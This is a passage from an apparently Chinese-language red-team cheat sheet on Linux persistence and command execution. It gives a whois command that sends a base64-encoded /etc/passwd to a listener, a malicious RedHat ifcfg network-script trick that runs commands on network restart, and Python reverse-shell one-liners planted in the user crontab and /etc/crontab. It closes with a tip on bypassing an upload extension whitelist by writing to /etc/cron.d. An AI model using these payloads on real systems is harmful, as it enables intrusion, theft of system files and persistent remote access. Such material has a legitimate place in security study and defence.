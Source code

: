 发送端
```
whois -h 127.0.0.1 -p 1337 `cat /etc/passwd | base64`
```

#### network-scripts

> 来自文章 : https://seclists.org/fulldisclosure/2019/Apr/24

Redhat/CentOS 发行版下通过写恶意网卡配置文件进行命令执行
```bash
sudo tee /etc/sysconfig/network-scripts/ifcfg-1337 <<-'EOF'
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0
EOF

service network restart             # 重启网络管理触发
systemctl status network.service    # 可以看到 id 已经执行
```

![](../../../../assets/img/Security/RedTeam/OS安全/Linux安全/4.png)

---

## 启动项 & 定时任务

**相关文章**
- [Linux Crontab定时任务反弹shell的坑](https://joychou.org/hostsec/linux-crontab-rebound-shell-hole.html)

**一些路径**
```
/etc/crontab
/etc/cron.d/
/var/spool/cron/crontabs/
/var/spool/cron/root
```

**payload**
```
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -

echo "* * * * * root /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" >> /etc/crontab

echo "* * * * * root echo 'success' > /tmp/crontest" >> /etc/cron.d/test123.cron
```

**Tips**
- 定时任务的报错可以通过查看 `ca` 来排错
- ubuntu 不能使用 bash 反弹 shell
- ubuntu 用户的定时任务在 /var/spool/cron/crontabs/ 目录下
- ubuntu 用户定时任务必须在 600 权限才能执行
- 如果做了白名单后缀,只允许 jpg ,可以传到 `/etc/cron.d/` 目录下,这里文件可以任意后缀命名,上传文件名为 `test.jpg` 绕过对应的安全检查

---